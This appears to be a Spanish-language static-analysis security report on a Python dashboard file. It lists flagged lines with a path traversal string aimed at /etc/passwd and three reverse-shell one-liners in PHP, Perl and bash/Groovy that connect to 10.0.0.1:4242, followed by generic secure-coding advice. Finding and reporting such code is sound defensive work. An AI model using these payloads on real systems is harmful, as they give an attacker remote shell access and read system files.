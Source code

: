 - **vista/vista_dashboard.py:1060**
  ```python
  ../../../etc/passwd               # Path traversal
  ```

- **vista/vista_dashboard.py:1060**
  ```python
  ../../../etc/passwd               # Path traversal
  ```

- **vista/vista_dashboard.py:1060**
  ```python
  ../../../etc/passwd               # Path traversal
  ```

### EVAL EXEC
**Ocurrencias**: 3

- **vista/vista_dashboard.py:1182**
  ```python
  php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```

- **vista/vista_dashboard.py:1186**
  ```python
  perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```

- **vista/vista_dashboard.py:1193**
  ```python
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \\$line 2>&5 >&5; done"] as String[])
  ```

## Recomendaciones de Seguridad

1. **Subprocess Shell=True**: Usar shell=False y listas de argumentos
2. **Eval/Exec**: Evitar o validar entrada estrictamente
3. **Input/Raw_input**: Validar y sanitizar entrada del usuario
4. **Hardcoded Secrets**: Usar variables de entorno o archivos de configuración
5. **Command Injection**: Usar subprocess en lugar de os.system
